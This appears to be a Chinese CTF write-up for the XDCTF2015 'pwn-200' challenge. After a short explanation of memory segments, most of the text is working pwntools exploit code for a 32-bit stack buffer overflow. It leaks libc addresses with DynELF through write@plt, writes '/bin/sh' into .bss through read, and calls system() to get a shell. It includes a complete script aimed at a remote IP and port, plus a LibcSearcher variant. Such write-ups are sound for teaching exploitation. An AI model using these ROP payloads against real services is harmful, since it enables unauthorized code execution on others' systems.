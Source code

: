 本题存在明显的缓冲区溢出漏洞：
read(0, &buf, 0x100u);//其中buf的大小为0x6c
0、①bss段
通常指用来存放程序中未初始化的全局变量和静态变量的一块内存区域，可读写的，在程序执行之前BSS段会自动清0。
②data段
该段用于存储初始化的全局变量，初始化为0的全局变量出于编译优化的策略被保存在BSS段。
③ro段
常量区，用于存放常量数据
④text段
用于存放程序代码的
⑤stack段
栈段，常说的堆栈段之中的一个，由系统负责申请释放
⑥heap段
俗称的堆，由用户申请和释放。申请时至少分配虚存，当真正存储数据时才分配对应的实存，释放时也并不是马上释放实存，而是可能被反复利用。
1、无libc的情况下，通过pwntools中的DynELF模块泄漏地址信息，给出实现DynELF关键函数leak的方法
该方法小结：https://blog.csdn.net/u011987514/article/details/68490157
	p = process('./xxx')
	def leak(address):
	  payload = "xxxxxxxx" + address + "xxxxxxxx"
	  p.send(payload)
	  data = p.recv(4)
	  log.debug("%#x => %s" % (address, (data or '').encode('hex')))
	  return data
	d = DynELF(leak, elf=ELF("./xxx"))      #初始化DynELF模块 
	systemAddress = d.lookup('system', 'libc')  #在libc文件中搜索system函数的地址
其中，address就是leak函数要泄漏信息的所在地址，而payload就是触发目标程序泄漏address处信息的攻击代码。
该方法是在内存中搜索信息，需要目标二进制文件中存在能够泄漏目标系统内存中libc空间内信息的漏洞。条件：
1）目标程序存在可以泄露libc空间信息的漏洞，如read@got就指向libc地址空间内；

2）目标程序中存在的信息泄露漏洞能够反复触发，从而可以不断泄露libc地址空间内的信息。

2、该题目流程：
int __cdecl main()
{
  signed int v1; // [sp+2Ch] [bp-6Ch]@1
  signed int v2; // [sp+30h] [bp-68h]@1
  signed int v3; // [sp+34h] [bp-64h]@1
  signed int v4; // [sp+38h] [bp-60h]@1
  signed int v5; // [sp+3Ch] [bp-5Ch]@1
  signed int v6; // [sp+40h] [bp-58h]@1
  int v7; // [sp+44h] [bp-54h]@1

  v1 = 'cleW';
  v2 = ' emo';
  v3 = 'X ot';      //Welcome to X
  v4 = 'FTCD';      //DCTF
  v5 = '5102';          //2015
  v6 = '\n!~';
  memset(&v7, 0, 0x4Cu);
  write(1, &v1, strlen((const char *)&v1));
  read(0, &buf, 0x100u);
  return 0;
}

其中buf的大小为0x6C，小于第三个参数，因此存在缓冲区溢出漏洞。

本题没有给出system的plt地址和/bin/sh，且没有libc，需要自己构造。

没有给出 libc，要泄露需要用到 DynELF
def leak(address):    
	payload = 'A' * 0x6C + '9527' + p32(write_plt) + p32(0x080483D0) + p32(1) + p32(address) + p32(4)    
	p.sendlineafter('Welcome to XDCTF2015~!\n', payload)    
	data = p.recv(4)    
	return data
...
if __name__ = '__main__':    
...    
	d = DynELF(leak, elf=ELF('./pwn-200'))    
	sys_addr = d.lookup('__libc_system','libc')    
...



得到 system_addr 后，需要在 .bss 段上写'/bin/sh'：
if __name__ = '__main__':    
...    
	bss_addr = elf.bss()
然后找pop * ; pop * ; pop * ; ret恢复栈，一步到system('/bin/sh')

本题目分为两部分：https://blog.csdn.net/weixin_44113469/article/details/87367342
	1) 借助DynELF泄露system地址，这里利用write函数泄露system地址，构造代码
	2) 利用read函数写入"/bin/sh"，调用system（），将"/bin/sh"写入到bss段，使用readelf -a pwn200 | grep bss查看bss段的地址
	如何利用read函数写入"/bin/sh"，参考：https://blog.csdn.net/weixin_44113469/article/details/87005678

3、借助DynELF实现利用的要点：

 1）调用write函数来泄露地址信息，比较方便；

 2）32位linux下可以通过布置栈空间来构造函数参数，不用找gadget，比较方便；

 3）在泄露完函数地址后，需要重新调用一下_start函数，用以恢复栈；

 4）在实际调用system前，需要通过三次pop操作来将栈指针指向systemAddress，可以使用ropper或ROPgadget来完成。

第二个payload的构成：https://blog.csdn.net/weixin_44113469/article/details/87005678
执行 python pwn200.py REMOTE
payload:


##!/usr/bin/python
#coding=utf-8
from pwn import *
pwn_file='./pwn200'
binary = ELF(pwn_file)

# libc = ELF('')

#context.terminal = ['tmux', 'splitw', '-h'] 
context(arch='i386',os='linux')
if args['DEBUG']:
    context.log_level = True 
elif args['REMOTE']: 
    io = remote('220.249.52.133', '56825')
else: 
    io = process(pwn_file)

# gdb.attach(io)

writePLT = binary.plt['write'] 
readPLT = binary.plt['read'] 
bssAddress = binary.bss(0) 
#vulnAddress=binary.symbols['sub_8048484']
vulnAddress = 0x8048484
#ROPgadget --binary pwn200 --only 'pop|ret'，三次pop操作将指针指向systemAddress
ppp_ret=0x804856c  

def leak(address): 
    #112=0x6C+4
    #payload = 'A' * 112 + p32(writePLT) + p32(vulnAddress) + p32(1) + p32(address) + p32(4) 
    #payload=padding+write PLT表地址+返回地址（需要二次发送）+参数1（0表示标准输入流stdin，1表示标准输出流stdout）+参数2（从内存中dump出的4字节system地址）+参数3（写入数据大小）
    payload = flat(['A' * 112,writePLT,vulnAddress,1,address,4]) 
    io.send(payload) 
    data = io.recv(4)
    log.debug("%#x => %s" % (address, (data or '').encode('hex'))) 
    return data

io.recvline()

dynelf = DynELF(leak,elf=binary) 
systemAddress = dynelf.lookup("__libc_system",'libc') 
#log.success(hex(systemAddress))
print(hex(systemAddress))

#调用start函数来恢复栈
io.send(flat(['A'*112, 0x080483D0]))
#payload=padding+read PLT表地址（使用read函数来写入地址）+read函数返回地址（写入完成后需要调用system函数）+read函数参数1（0表示标准输入流stdin，1表示标准输出流stdout）+read函数参数2（bss段地址）+read函数参数3（strlen("/bin/sh\x00")+system函数返回地址+system函数的参数(bss段的地址)
payload = flat(['A' * 112,readPLT,systemAddress,0,bssAddress,10,0xdeadbeef,bssAddress])
#payload=flat(['A'*112,readPLT,ppp_ret,0,bssAddress,8,systemAddress,vulnAddress,bssAddress])
io.send(payload) 
io.send('/bin/sh\x00') 
io.interactive() 

注意payload = flat(['A' * 112,readPLT,systemAddress,0,bssAddress,10,0xdeadbeef,bssAddress])可以分解为2部分：
(1)	payload1 = 'A'*112 +p32(readPLT)+p32(vulnAddress)+p32(0)+p32(bssAddress)+p32(8)
	io.send(payload1)
	io.send('/bin/sh\x00')
(2)	payload2 = 'a'*140 +p32(systemAddress)+p32(0xdeadbeef)+p32(bssAddress)
	io.send(payload2)
	io.interactive() 
4、利用libcsearcher解题方法：


#先leak出write函数在libc中的地址
rop1 = 'a'*112+p32(plt_write)+p32(plt_main)+p32(1)+p32(got_write)+p32(4)
p.recvuntil('Welcome to XDCTF2015~!\n')#就是忘了这一句
p.sendline(rop1)
write_addr = u32(p.recv(4))

#利用LibcSearcher获取libc版本
libc = LibcSearcher('write', write_addr)
lib_base = write_addr - libc.dump('write')
system_addr = lib_base + libc.dump('system')
binsh_addr = lib_base + libc.dump('str_bin_sh')

#调用system函数
p.recvuntil('Welcome to XDCTF2015~!\n')
payload1 = 'a' * 112 + p32(system_addr) + p32(0xdeadbeef) + p32(binsh_addr)
